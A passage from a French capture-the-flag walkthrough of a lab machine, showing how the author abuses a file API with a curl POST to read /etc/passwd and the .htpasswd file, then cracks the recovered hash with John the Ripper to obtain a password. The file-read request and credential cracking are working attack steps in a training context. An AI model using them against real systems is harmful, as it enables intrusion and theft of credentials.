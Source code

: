 La plupart de ces fichiers n'existent pas, mais `files_api.php` donne un message :

```html
<p>No parameter called file passed to me</p><p>* Note : this API don't use json , so send the file name in raw format</p>
```

On parvient à lire un fichier en passant le paramètre `file` via `POST`.

```console
$ curl -X POST http://192.168.56.200:8011/api/files_api.php --data "file=/etc/passwd"

<head>
  <title>franks website | simple website browser API</title>
</head>

root:x:0:0:root:/root:/bin/bash
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
--- snip ---
frank:x:1000:1000:frank,,,:/home/frank:/bin/bash
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:111:ftp daemon,,,:/srv/ftp:/bin/false
```

J'en ai profité pour aller lire le fichier `/var/www/development/.htaccess` dont la présence provoque le code 401 sur le port 80 :

```apache
AuthUserFile /etc/.htpasswd
AuthName "Frank Development Area"
AuthType Basic
AuthGroupFile /dev/null

<Limit GET POST>

require valid-user

</Limit>
```

Avec le path du `.htpasswd` je peux lire les identifiants attendus.

```
frank:$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0
```

Je casse le hash avec `JtR` et la wordlist `rockyou`, il s'agit du mot de passe  `frank!!!`.

## Uploadz

La page qui nous était auparavant bloquée contient le texte suivant :

> *** Here is my unfinished tools list**
> 
> #### - the uploader tool (finished but need security review)
